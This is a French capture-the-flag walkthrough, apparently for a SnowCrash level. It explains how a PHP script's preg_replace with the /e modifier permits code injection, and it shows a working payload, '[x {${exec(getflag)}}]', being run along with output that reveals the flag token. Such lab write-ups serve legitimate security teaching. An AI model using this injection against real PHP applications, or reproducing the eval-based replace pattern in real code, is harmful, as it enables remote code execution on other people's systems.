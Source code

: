 On trouve dans le dossier **home** un binaire nommé **level06** et un fichier php nommé **level06.php** contenant le code suivant :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
> La partie interessante dans le code est <code>/(\[x (.*)\])/e</code> car le **preg_replace** utilise le *modifier* **/e** ou **(PREG_REPLACE_EVAL)**, qui est connu pour être sensible aux injections (Il n'existe meme plus en PHP 7.0.0)

On comprend que le format pour la string recupérée du <code>file_get_contents</code> doit être formatée de la manière suivante:

<code>/(\[x (.*)\])/e => [x {${INJECTION}}]</code>

L'injection permet de remplacer le <code>(.*)</code> par une commande, comme par exemple **getflag**:

<pre><code>> echo '[x {${exec(getflag)}}]' > /tmp/inject
> ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
</code></pre>

